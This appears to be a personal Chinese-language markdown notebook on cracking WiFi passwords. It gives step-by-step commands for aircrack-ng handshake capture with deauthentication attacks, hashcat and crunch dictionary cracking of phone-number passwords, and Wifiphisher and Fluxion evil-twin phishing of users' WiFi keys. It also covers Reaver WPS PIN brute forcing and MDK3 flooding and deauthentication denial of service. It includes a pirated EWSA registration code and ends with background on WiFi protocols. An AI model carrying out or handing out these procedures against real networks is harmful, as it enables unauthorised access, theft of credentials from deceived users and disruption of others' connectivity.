

# 破解wifi密码

## Aircrack-ng 工具

Aircrack-ng是一个与802.11标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP和WPA/WPA2-PSK破解。

### 网上教程

[教程链接](https://tieba.baidu.com/p/7981575504)
[教程链接2](https://www.jianshu.com/p/2ec8b2ef84ae)
[教程链接3](https://blog.csdn.net/Pythonicc/article/details/105029705)
[教程链接4](https://www.aneasystone.com/archives/2016/08/wireless-analysis-one-monitoring.html)

我按网上的教程，在扫描WiFi时，扫描不到，经多次尝试，按我下面的步骤可以成功

### 用kali虚拟机（不推荐）

#### 前置条件

一个kali支持的无线网卡，芯片3070/8187/5370都可以
注意，因为kali是安装在虚拟机里的，不能直接调用宿主机自带的ax200无线网卡，但是可以调用USB无线网卡，这里我使用的是RT3070L芯片的网卡

#### step0：关掉干扰进程

```shell
su root
# 关掉干扰进程，执行之后会整个系统断网，不要惊慌
airmon-ng check kill
```

#### step1：启用网卡的监听模式

在usb2.0接口插上RT3070L无线网卡
在虚拟机中启用这个USB设备

网卡我用风扇散热，过热的话抓不到数据

```shell
# 用这个命令应该能看到wlan0网卡
ifconfig -a
# 如果用这个命令也能看到wlan0网卡，说明这个网卡被启用
ifconfig
# 如果wlan0网卡已启用，就禁用这个网卡
ifconfig wlan0 down
# 这时用这个命令应该看不到wlan0网卡
ifconfig
# 看到wlan0网卡的模式为Managed
iwconfig
# 将wlan0网卡的模式改为Monitor
iwconfig wlan0 mode monitor
# 再启用wlan0网卡
ifconfig wlan0 up
# 如果能看到wlan0网卡，说明这个网卡被启用
ifconfig
# 开启监听
airmon-ng start wlan0
# 这时候应该不会提示执行 airmon-ng check kill
```


查看自己的网卡是什么芯片可以使用
```shell
lsusb
dmesg -T
```


#### step2：扫描WiFi

在root目录下创建wifi_crack文件夹（用于保存抓到的握手包），并进入


```shell
# 探测所有无线网络，抓取数据包
airodump-ng wlan0
```

有时候扫描不到WiFi，那就在虚拟机设置中拔出再插入USB网线网卡，然后从step1开始执行


字段解释：
- BSSID：表示无线 AP 的 MAC 地址
- PWR：信号强度，它的值一般都是一个负数，值越大，表示信号越强。如果 PWR 值为 -1，说明不支持信号强度的查看
- Beacons：Beacon 是无线数据包中最有用的一种，叫做信号数据包。802.11 的数据包按类型可以分成三类：管理、控制和数据。管理类数据包又可以分为三种子类型：认证（authentication）、关联（association）和信号（beacon）数据包。Beacon 由 WAP 发送，穿过无线信道通知所有无线客户端存在这个 WAP，并定义了连接它必须设置的一些参数
- #Data：捕获到的数据分组的数量，包括广播分组
- CH：信道号
- MB：WAP 所支持的最大速率
- ENC：使用的加密算法体系。OPN 表示无加密，WEP? 表示 WEP 或者 WPA/WPA2，WEP 表示静态的或者动态的 WEP，当然，WEP 加密很早就已经遭淘汰了，目前最常见的是 WPA 和 WPA2
- CIPHER：使用的加密算法。常见的算法有：CCMP、WRAAP、TKIP、WEP 等
- AUTH：使用的认证协议。常用的有：MGT（WPA/WPA2 使用独立的认证服务器，譬如 802.1x、RADIUS、EAP 等），SKA（WEP 的共享密钥），PSK（WPA/WPA2 的预共享密钥）和 OPN（开放式）
- ESSID：所谓的 SSID 号，如果启用隐藏的话，ESSID 可以为空，或者显示为 <length: 0>
- STATION：客户端的 Mac 地址，包括连上的和想要连的客户端。如果客户端没有连上 AP，ESSID 列显示成 (not associated)
- Probe：被客户端查探的 ESSID，如果客户端正在试图连接一个 AP，但是没有连接上，将会显示在这里

#### step3：攻击并抓取握手包

通过抓去这个指定bssid我已经看到有一个用户连接，STATION可以看到
接下来进行握手包抓取了
```shell
# 探测指定的无线网络
# 参数：
# -c 指定频道号
# --bssid 指定路由器bssid
# -w 指定抓取的握手包存储路径
# 最后是指定网卡接口
airodump-ng wlan0 -c 1 --bssid 94:0C:6D:46:51:52 -w ./
```


到现在为止，我只有一个终端窗口
请勿多开终端窗口，不然可能导致一直抓不到信息

对其中的一个连接进行攻击，使其对AP断开连接
注意：此时我上面一个终端窗口并没有停止抓包，而是一只运行着，我下面是新开的一个终端，现在一共打开两个终端窗口

aireplay-ng是一个注入帧的工具
接下来进行
```shell
# 对指定BSSID的目标网络发送解除认证数据包，迫使客户端重新认证并捕获握手数据包
# 参数：
# -0 表示解除认证攻击，后接的数字是攻击次数
# -a 指定无线路由器BSSID
# -c 指定强制断开的设备
# 最后是指定网卡接口
aireplay-ng -0 10 -a 94:0C:6D:46:51:52 -c 8A:07:74:A1:D2:D9 wlan0
```

[Aircrack-ng之Aireplay-ng命令详解](https://blog.csdn.net/qq_28208251/article/details/48115815)

根据无线网络路由器的MAC地址和连接无线网络的设备的MAC地址对指定目标发起deauth反认证包攻击，让那个设备断开wifi，随后它自然会再次连接wifi，当它自动重新连接wifi的时候，我们的攻击终端便能抓到握手包


第一个终端右上角提示拿到了握手包，握手包保存到了当前目录下的cap格式文件


#### step4：破解密码

##### 使用aircrack-ng

现在需要字典

[利用kali生成字典的三种方式](https://blog.csdn.net/qq_44204058/article/details/115562895)

kali自带字典的目录为
```shell
/usr/share/wordlists/
```

对刚才抓取到的握手包进行密码破解
```shell
# 跑字典
# 参数：
# -w 指定字典
# 最后是指定保存了握手包的cap格式文件
aircrack-ng -w ./pass_test.txt ./-18.cap
```


这里为了测试，我把已知正确的密码加到了字典文件中
破解成功

##### 使用Hashcat

###### 生成字典

用中国大陆手机号字典

[生成全部中国大陆手机号字典](https://blog.zhouqian.wang/index.php/2023/03/13/crunch-hashcat-%e7%a4%be%e5%b7%a5%e5%af%86%e7%a0%81%e7%bb%84%e5%90%8811%e4%bd%8d%e6%89%8b%e6%9c%ba%e5%8f%b7-%e5%a7%93%e5%90%8d%e7%94%9f%e6%97%a5%e7%bc%a9%e5%86%99%ef%bc%8c%e9%81%bf%e5%85%8d/)

用两本字典来组合


[使用crunch创建密码字典](https://www.cnblogs.com/itwangqiang/p/14878789.html)

```shell
crunch 9 9 -t %%%%%%%%% -o mobilephone_tail.txt 
```


###### 握手包格式转换（cap to hc22000）

现在很多关于hashcat的博客关于转换的描述都说是cap转换为hccap格式，但是这种格式其实已经不适用于现在的hashcat版本了，在hashcat6.0版本之后，-m 2500 和 -m 16800 已经被更改为 -m 22000 了

首先要把airodump抓取的cap文件转化为hc22000格式

[在线转换网站](https://hashcat.net/cap2hashcat/)

###### 破解

[Hashcat详解](https://www.sqlsec.com/2019/10/hashcat.html)
[Hashcat使用](https://blog.csdn.net/m0_50177728/article/details/124003791)
[Hashcat使用2](https://www.cnblogs.com/diligenceday/p/6359661.html)

使用hashcat组合破解模式

```shell
# 跑字典
# 参数：
# -a 指定攻击模式，1 代表组合破解
# -m 指定破解模式，22000 代表握手包破解模式
# -o 表示结果输出路径
# 最后是指定字典文件，组合破解时，注意字典的顺序
hashcat -a 1 -m 22000 ./1880_1688381391.hc22000 -o wifi_passwd_result.txt mobilephone_head.txt mobilephone_tail.txt
```


这个就是运行中的结果，在运行过程中可以向终端输入命令s来查看实时破解状态

这里在kali虚拟机中的破解速度很慢，那就用windows宿主机破解（EWSA软件）

##### EWSA跑包

在windows系统中安装EWSA（Elcomsoft Wireless Security Auditor）

[EWSA软件下载网址](https://www.jb51.net/softs/359426.html)

下载后解压并安装

可用的注册码
```
EWSA-173-HC1UW-L3EGT-FFJ3O-SOQB3
```

[EWSA使用教程](https://www.key-iot.com/news/16479.html)

导入cap格式的文件


使用掩码破解

我们点一下“添加”按钮，输入3456789，确定。

然后修改一下掩码，在8个?d前面加上1?1?d，点击应用、确定。这里第一个1没别的意思，就是1的意思，我们的手机号都是1开头的，?1里面的1是我们刚刚添加的一个定义，默认分到的序号是1，我们手机号的第二位都是3456789，没有其他数字，?d是为了凑齐十一位数。
点击开始破解，掩码攻击，就开始破解以手机号为密码的WiFi密码了。


开始掩码攻击


发现核显的电脑比独显的电脑慢很多，换用独显电脑


破解成功

### 用树莓派（推荐）

第一个终端：
```shell
su root
# 如果网卡没有启动，就手动启动
ifconfig wlan0 up
# 把wlan0网卡切换到监听模式
airmon-ng start wlan0
# 杀掉可能影响监听的进程
airmon-ng check kill
# 扫描WiFi
airodump-ng wlan0mon
# 监听某个指定的WiFi并尝试抓取握手包，保存到当前目录
airodump-ng wlan0mon -c [频道号] --bssid [路由器的mac地址] -w ./
```

第二个终端：
```shell
# 对指定目标发起deauth反认证包攻击
aireplay-ng -0 [攻击次数] -a [路由器的mac地址] -c [连接设备的mac地址] wlan0mon
```

可多次攻击，等待第一个终端提示抓到握手包，之后流程与上面用kali虚拟机相同

## WiFiphisher 工具

Wifiphisher是一个安全工具,具有安装快速、自动化搭建的优点，利用它搭建起来的网络钓鱼攻击WiFi可以轻松获得密码和其他凭证。与其它（网络钓鱼）不同，这是社会工程攻击，不包含任何的暴力破解，它能轻松获得门户网站和第三方登陆页面的证书或WPA/WPA2的密钥。

[WiFiphisher的GitHub](https://github.com/wifiphisher/wifiphisher)

### 原理

1. 它会先创建一个伪造的无线访问接入点（AP）并把自己伪装成一个合法的WiFi AP，然后向合法无线访问接入点（AP）发动DoS攻击，或者在其周围创建一个射频干扰。 Wifiphisher通过伪造“去认证”或“分离”数据包来破坏现有的关联，从而不断地在范围内阻塞所有目标接入点的wifi设备。
2. 受攻击者登录假冒AP。Wifiphisher会嗅探附近无线区域并拷贝目标AP的设置，然后创建一个假冒AP，并设置NAT/DHCP服务器转发对应端口数据。那些被解除认证的客户端会尝试连接假冒AP。
3. 无论受害者访问什么页面，WiFiPhisher都会向受害者提供一个很逼真的路由器配置更改界面，并称由于路由器固件更新需修改路由器密码，Wifiphisher使用一个最小的web服务器来响应HTTP和HTTPS请求。一旦受害者请求互联网的页面，wifiphisher会用一个真实的假页面来回应，要求提供凭证或服务恶意软件。这个页面将专门为受害者制作。例如，一个路由器配置文件的页面将包含受害者的供应商的品牌。该工具支持针对不同钓鱼场景的社区构建模板。

### 网上教程

[英文教程](https://null-byte.wonderhowto.com/how-to/hack-wi-fi-get-anyones-wi-fi-password-without-cracking-using-wifiphisher-0165154/)
[中文教程](https://zhuanlan.zhihu.com/p/149945656)

### 用kali虚拟机（不推荐）

#### 前置条件

##### 安装

```shell
apt install wifiphisher
```

#### 扫描WiFi

在虚拟机中就是扫不到，像上面那样手动把网卡切换到监听模式也不行，不玩了，换树莓派

### 用树莓派（推荐）

```shell
wifiphisher -i wlan0
```

选择一个被扫描到的WiFi


选择钓鱼的方法，这里选择 4


现在，原WiFi被干扰，连接不上，新出现了一个和原WiFi同名但是没有密码的WiFi
被钓鱼用户连接上，就会弹出如下界面


被钓鱼用户输入密码之后显示如下


然后wifiphisher就拿到被钓鱼用户输入的密码（没做验证，不一定是正确的）


## Fluxion 工具

钓鱼wifi的框架工具
就是做伪AP，很经典的欺骗方式


[Fluxion的GitHub](https://github.com/FluxionNetwork/fluxion)

### 原理

1. 扫描能够接收到的wifi信号
2. 抓取握手包，可以选择跑包，但是fluxion更为直接的是利用握手包来验证后边用户输入的密码
3. 启用Web接口
4. 生成一个和之前选择的AP名称相同的假的AP，模拟原来的接入点
5. 生成一个MDK3进程，如果用户已经连接到这个WIFI（真实），也会输入密码
6. 启动一个模拟的DNS服务器，并且抓取所有的DNS请求，并且将所有的请求重定向到一个含有恶意脚本的HOST地址
7. 在用户的终端会弹出一个窗口来让用户输入密码
8. 程序会将用户输入的密码和之前抓到的握手包来进行比较，比对密码是否正确，如果用户密码输入的不正确，那么窗口会提示密码输入不正确，直至用户密码输入正确为止。
9. 用户输入正确的密码之后，假的AP停止，fluxion会返回正确的密码给操作者，并且将用户输入的所有密码记录在文档中

### 网上教程

[教程链接](https://www.freebuf.com/articles/wireless/283395.html)

### 用kali虚拟机（不推荐）

#### 前置条件

##### 安装

```shell
git clone git@github.com:FluxionNetwork/fluxion.git
cd fluxion
./fluxion.sh
# 安装必要的依赖
./fluxion.sh -i
```

安装位置：/root/software_download/fluxion/

#### 捕获目标握手包

攻击方式选择2


对WiFi进行扫描


选择要攻击的WiFi


选择跳过


选择2


选择推荐的


之后会自动进行攻击，握手包抓取成功后如下图，选择1


##### 如果扫描不到WiFi

退出fluxion并执行
```shell
iwconfig wlan0 mode monitor
ifconfig wlan0 up
airmon-ng start wlan0
```
然后再进入fluxion再次扫描WiFi

#### 攻击真实ap，伪造钓鱼ap，获取密码

攻击方式选择1


选择Y


选择跳过


选择2


选择2


选择1


选择1


选择1，使用刚刚抓取到的hash文件


选择推荐的


选择1


选择推荐的


选择钓鱼模板，这里我选择3


选择完钓鱼模板后，会自动开启钓鱼服务，正常应该弹出下图的六个窗口
分别代表 钓鱼ap的服务信息，dns信息，认证密码保存信息，服务器的访问记录以及攻击真实ap的记录（下图是在网上找的一张运行正常的截图）


##### 如果DHCP服务启动失败

但是我到这一步时，fluxion启动DHCP服务失败，只弹出了五个窗口


被钓鱼端提示无法加入这个WiFi网络


[fluxion 无法连接虚假AP热点，DHCP服务启动失败解决方案](https://www.codenong.com/cs109240619/)

定位到attack.sh文件的第1468行


其中 $FLUXIONWorkspacePath 的值为 /tmp/fluxspace

其中文中中的命令
```shell
dhcpd -d -f -lf \"$FLUXIONWorkspacePath/dhcpd.leases
```
等效于在 /tmp/fluxspace 目录下执行命令
```shell
dhcpd -d -f -lf ./dhcpd.leases
```

执行报错了


前加 sudo
```shell
sudo dhcpd -d -f -lf ./dhcpd.leases
```

用root权限执行也报错


查看文件的权限设置


```shell
chmod 777 dhcpd.leases 
```
修改权限后，还是一样报错

退出攻击后，可见 /tmp/fluxspace 文件夹里的文件少了许多

这个思路不通，换个角度试试

在反复恢复攻击时，发现下图的报错


搞不好，不用虚拟机了，换树莓派

### 用树莓派（推荐）

前面的步骤都相同，但是在树莓派的kali系统中，fluxion启动DHCP服务成功


现在，原WiFi被干扰，连接不上，新出现了一个和原WiFi同名但是没有密码的WiFi
被钓鱼用户连接上，就会弹出如下界面


被钓鱼用户如果输入错误的密码（会做验证），显示如下


被钓鱼用户如果输入正确的密码（会做验证），显示如下


查看密码（经过fluxion验证是正确的）


与wifiphisher相比，fluxion会验证别钓鱼者输入密码的正确性

## Reaver 工具

Reaver是一个用于破解WPS PIN码的工具，进而获取WPA/WPA2-PSK密钥。Reaver利用WPS设计的漏洞，通过暴力破解PIN码来实现攻击。

### 网上教程

[Reaver官网](https://www.kali.org/tools/reaver/)
[Kali如何使用Reaver破解Wi-Fi网络的WPA/WPA2密码教程](https://blog.csdn.net/weixin_40586270/article/details/81280928)
[关于pin码破解的原理和reaver参数的解释](https://blog.csdn.net/weixin_45666594/article/details/112984559)

### 用树莓派（推荐）

#### 前置条件

爆破pin码的前提是路由器开启了WPS功能

#### step0：实验WiFi路由器开启WPS功能


#### step1：找到开启WPS功能的WiFi

```shell
# 开启网卡的监听模式
airmon-ng start wlan0
# 扫描开启wps的WiFi设备，Lck 为 No 的都可以爆破试试
wash -i wlan0mon
```


#### step2：pin码爆破

找到了开启WPS的WiFi，接下来就可以用reaver工具进行pin码爆破

```shell
# 参数：
# -i  无线网卡名称
# -b  目标AP的mac地址
# -S  使用最小的DH key，可以提高破解速度
# -vv  显示更多的非严重警告（注意这是 2 个小写字母 v）
# -d  即delay每穷举一次的闲置时间，预设为1秒
# -t  即timeout每次穷举等待反馈的最长时间
# -c  信道编号
# -p  PIN码四位或八位（可以用8位直接找到密码）
reaver -i wlan0mon -b [路由器的mac地址] -S -d 5 -t 5 -vv -c [频道号]
```


报错了，发送了 M2 message 之后就没有回应了
[Fail send message 2 and do not receive message 3, received nack 的解决方法](https://github.com/t6x/reaver-wps-fork-t6x/issues/270)
Try executing first with -N and if that doesn't work, try with -F.
这样可以忽略掉某些验证

```shell
# 参数：
# -N  Do not send NACK messages when out of order packets are received
reaver -i wlan0mon -b [路由器的mac地址] -S -d 5 -t 5 -vv -c [频道号] -N
```

添加参数 -N 后，运行正常


多次尝试PIN码后，会导致WiFi路由器拒绝继续为你服务

##### 如果目标WiFi路由器开启防爆破

使用MDK3工具对WiFi进行泛洪攻击，使其宕机重启，然后继续PIN码爆破


##### 已经知道PIN码后

```shell
# 获取到 PIN码 后，以后即便路由器更换了密码，我们也可以很迅速地通过 PIN码 重新获得WiFi密码
reaver -i wlan0mon -b [路由器的mac地址] -p [PIN码]
```



成功通过 PIN码 获得WiFi密码

## MDK3 工具

MDK3 是一款无线DOS 攻击测试工具，能够发起Beacon Flood（无线SSID干扰攻击）、Authentication DoS（DHCP地址耗尽攻击）、Deauthentication/Disassociation Amok（指定用户断线攻击） 等模式的攻击，另外它还具有针对隐藏ESSID 的暴力探测模式、802.1X 渗透测试、WIDS干扰等功能。

各种攻击模式如下图


### 网上教程

[MDK3官网](https://www.kali.org/tools/mdk3/)
[无线大杀器mdk3教程](https://parrotsec-cn.org/t/mdk3/159)
[无线DOS 攻击测试工具：mdk3](https://cloud.tencent.com/developer/news/16421)

### 用树莓派（推荐）

#### 前置条件

欲用此利器，必先启动网卡的监听模式
```shell
airmon-ng start wlan0
```

#### Beacon Flood（Beacon泛洪攻击）

攻击原理是攻击者伪造任意的MAC地址在无线网络环境中发送Beacon管理控制帧，造成一定范围的无线覆盖范围内的用户扫描到大量的垃圾SSID

```shell
# 参数：
# -n <ssid>  自定义ESSID
# -f <filename>  读取ESSID列表文件
# -v <filename>  自定义ESSID和BSSID对应列表文件
# -d  自定义为Ad-Hoc模式
# -w  自定义为wep模式
# -g  54Mbit模式
# -t  WPA TKIP encryption
# -a  WPA AES encryption
# -m  读取数据库的mac地址
# -c <chan>  自定义信道
# -s <pps>  发包速率
mdk3 wlan0mon b 
```

发射大量的垃圾SSID来干扰其他使用者


用crunch工具生成ESSID列表文件

使用自定义的ESSID名


#### Authentication DoS（身份验证洪水攻击）

自动模拟随机产生的mac向目标AP发起大量验证请求，可以导致AP忙于处理过多的请求而停止对正常连接客户端的响应。这个模式常见的使用是在reaver穷举路由PIN码，当遇到AP被“pin死”时，可以用这个模式来直接让AP停止正常响应，迫使AP主人重启路由

```shell
# 先找到一个目标WiFi
airodump-ng wlan0mon
# 参数：
# -a <ap_mac>  测试指定BSSID
# -m  使用有效数据库中的客户端mac地址
# -c  对应 -a ，不检查是否测试成功
# -i <ap_mac>  对指定BSSID进行智能攻击
# -s <pps>  速率，默认50
mdk3 wlan0mon a -a [目标WiFi的BSSID]
```


上面这条命令会循环发送大量验证信息给AP，过不了几分钟，AP就会卡死，如果路由器有防DOS的功能的话，这个不好用

#### Deauthentication/Disassociation Amok（强制解除验证解除连接攻击）

[对WiFi发动取消认证攻击（Deauthentication)](https://www.bilibili.com/read/cv18290136)
[WIFI接入之Authentication（认证）和Association（关联）流程梳理](https://blog.csdn.net/Atlas12345/article/details/104588090)

软件会向周围所有可见AP发起循环攻击，可以造成一定范围内的无线网络瘫痪（当然有白名单，黑名单模式）

```shell
# 参数：
# -w <filename>  白名单mac地址列表文件
# -b <filename>  黑名单mac地址列表文件
# -s <pps>  速率，这个模式下默认无限制
# -c [chan,chan,chan,...]  信道，可以多填，如 2,4,5,1
mdk3 wlan0mon d -c 1
```


此时的无线网络会处于一个时断时续的状态直到攻击停止

## Wifite 工具

Wifite是一个自动化工具，用于攻击使用 WEP / WPA / WPA2 / WPS 进行加密的多个无线网络。

### 网上教程

[Wifite官网](https://www.kali.org/tools/wifite/)
[wifite硬核破解WiFi密码](https://www.cnblogs.com/nanstar/p/12319158.html)

### 用树莓派（推荐）

```shell
# 启动命令
wifite
```


选择目标WiFi，会自动尝试攻击


# WiFi 安全接入方法

[WIFI基础入门--802.11--TKIP/CCMP/RSN--8](https://blog.csdn.net/qq_20677327/article/details/104663116)

有几种不同的协议用于保护 WiFi 网络安全

## WEP（wired equivalent privacy）- 优先等效保密协议

已过时，不用

## WPA（WiFi protected access）- WiFi网络安全接入

为解决 WEP 的问题而开发的
WPA是对WEP的升级，所以在设计的时候，考虑到对WEP的兼容，于是有了TKIP的加密规则，WEP采用的是 40bits 或 104bits 的RC4算法，而TKIP是也使用了RC4算法对密钥进行加密

### TKIP（Temporal KeyIntegrity Protocol）- 临时密钥完整性协议

TKIP 在使用时会动态地更改其密钥，这就确保了数据的完整性
然而，WPA 使用的 TKIP 仍然有一些漏洞，这就引出了 WPA2

## WPA2

WPA2 使用 AES（Advanced Encryption Standard，高级加密标准）加密

### AES（Advanced Encryption Standard）- 高级加密标准

AES 使用对称加密算法，但它强大到足以抵抗暴力破解
AES 是根据 CBC-MAC 算法导出密钥

### CCMP（Counter Mode with Cipher-Block Chaining Message Authentication Code Protocol）- 链消息认证码协议

CCMP 则是 AES 的升级，以 AES 为核心，配合 CTR 和 CBC-MAC 模式分别实现加密和认证功能

## PSK（pre-shared key）- 预共用密钥模式

是设计给负担不起 802.1X 验证服务器的成本和复杂度的家庭和小型公司网络用的，每一个使用者必须输入来取用网络，而密语可以是8 到 63 个 ASCII 字符、或是 64 个数字（256位元）

## WPA/WPA2

一个混合安全选项，这个选项同时启动 WPA（TKIP） 和 WPA2（AES）
这是出于兼容性的考虑，因为 2006 年前的设备可能与 WPA2 使用的 AES 加密不兼容

### WPA-PSK/WPA2-PSK

WPA-PSK/WPA2-PSK 是WPA/WPA2的简化版，采用了 Pre-shared key 预共享密钥认证方式，而不是通过认证服务器进行认证。

## WPA3

[WI-Fi官方网站](https://www.wi-fi.org)称，WPA3 于 2018 年推出

## WPS（WI-Fi protedted setup）- WI-Fi保护设置

主要致力于简化无线网络的安全加密设置。具备这一功能的无线产品往往在机身上设计有一个功能键，称为WPS按钮，用户只需轻轻按下该按钮或输入PIN码，再经过两三步简单操作即可完成无线加密设置，同时在客户端和路由器之间建立起一个安全的连接

### PIN码

在无线网卡的配套管理软件（如TP-LINK的QSS软件）里输入无线路由器设备上的那8位数字字符串就可以成功登录该已被加密的无线路由器

#### 破解

PIN码分前4和后4，而后4中最后一个是CHECKSUM，所以等于只有三位，先破前4只有最多一万个组合，破后4中的前3只有一千个组合，一共就是一万一千个密码组合。 10的4次方+10的3次方=11000个密码组合

## AC（access control）- 接入控制

在一些路由器上也叫做 MAC过滤器
每个网络适配器都有一个 MAC 地址（一组16进制数字，用来标识网络上的每一个设备）
使用接入控制，可以允许或阻止某些设备加入您的网络


# 相关知识

[802.11协议帧格式、Wi-Fi连接交互过程、无线破解入门研究](https://www.cnblogs.com/LittleHann/p/3700357.html)

## 802.11 协议

802.11 协议将所有的数据分为三种：
- 数据帧
- 管理帧
- 控制帧

### 管理帧主要用来STA连接和断开无线网络，总共12个管理帧

Association request (subtype 0x0)
Association response (subtype 0x1)
Reassociation request (subtype 0x2)
Reassociation response (subtype 0x3)
Probe request (subtype 0x4)
Probe response (subtype 0x5)
Beacon (subtype 0x8)
ATIM (subtype 0x9)
Disassociation (subtype 0xa)
Authentication (subtype 0xb)
Deauthentication (subtype 0xc)
Action (subtype 0xd)

## WiFi连接交互过程

1. AP广播发送Beacon（信标帧）
2. STA向AP发送携带有指定SSID的Probe Request（探测请求帧）
3. AP向STA发送Probe Response（探测回应帧）
4. STA对AP发送Authentication Request（认证请求帧）
   1. AP向STA发送Authentiction Response (Challenge)（加密认证）
   2. STA对AP发送Authentication Response (Encrypted Challenge)（加密认证）
5. AP向STA发送Authentiction Response（认证应答帧）
6. STA向AP发送Association Request（关联请求帧）
7. AP向STA发送Association Response（关联应答帧）
8. 正常数据传输（浏览网页、看视屏等）
9. STA向AP发送Disassociation（取消关联帧）

### 根据协议，可以针对这一过程发起攻击

#### Deauthentication攻击

- 如果一个STA想要从AP取消认证，或者一个AP想要从STA取消认证，无论哪一个设备都可以发送取消认证帧。

- 因为认证帧是关联帧的先决条件，所以取消认证帧会自动的导致取消关联发生。取消认证帧不能被任何一方拒绝，除非双方已经协商了管理帧保护协议（定义在 802.11w），并且MIC完整性检查失败。

- 结论：取消认证帧的发送会导致STA断开网络。

#### Disassociation攻击

- 一旦STA连接到AP，任何一方都可以通过发送取消连接帧来中断连接。它和取消认证帧有相同的帧格式。

- 如果手动点击断开连接或者STA想要切换网络（比如漫游），那么STA就会发送取消连接帧。

- 如果STA尝试发送不合法的参数，AP会发送取消连接帧。

- 结论：取消连接帧的发送会导致STA断开网络。 


---
---

Arpspoof进行ARP欺骗，用Ettercap进行DNS劫持


---
---
---


其他无线安全审计总结

常用的工具
aircrack-ng aircrack 系列套件
reaver & wash WPS攻击
pixiewps 离线WPS攻击
minidwep-gtk 水滴
beini 奶瓶
mdk3 伪ssid工具
打气筒 经常有提到，但我不知道原名叫什么
wifislax 钓鱼伪AP工具
Wifite 一款自动化wep、wpa攻击工具
oclHashcat GPU加速
Fern Wifi Cracker Fern Wifi Cracker使用了Python语言和PyQt图形界面库，能够攻击WEP/WPA/ WPS的WIFI网络，它还可以进行MITM中间人攻击。
Crunch 字典生成工具
Macchanger 本机MAC修改

传统 WPA 密钥破解方法
你需要强大的字典，以及强大的运算能力，可以利用hash table(彩虹表)以及显卡来加速运算。
利用 hash-table(彩虹表) 的工具叫 cowpatty
GPU加速运算则是利用 pyrit

主流攻击形式
Crack WPA
Pentest over WiFi
Fake AP
Air-Capture
MITM
WAP Tunnel
WAPJack
WIDS/WIPS/Hotspot
Deauth/Auth/Disco
WiFiphisher

关于主流技术
Dictionary
WPA PMK Hash
WPS Online/Offline
Distributed
GPU
Cloud

本质上只有两种方法，一种是，获取到关键的Handshake，然后进行暴力搜索;Distributed GPU Cloud 这些无非是为了加快计算速度。

WPA PMK Hash 这一块还不太理解。

另一种则是利用WPS的设计缺陷。Online就是Reaver，Offline就是Dust Attack。

云平台
关于词典，其实我觉得WiFi万能钥匙就是一个很重要的词典。
这种平台也可以进行词典的收集工作。

利用云计算工具在线搜索AntiMatter
http://free.wpapass.com/
当然还对比了流行的国外平台。

例如
GPUHASH
Cloud Cracker
HashCrack
HashBreak
Online HashCrack
darkircop

最后
另外发现作者还写了几本书，看目录的话内容也算靠谱，比如《无线网络安全攻防实战进阶》以及《无线网络黑客攻防（畅销版）》等，可以作为参考。
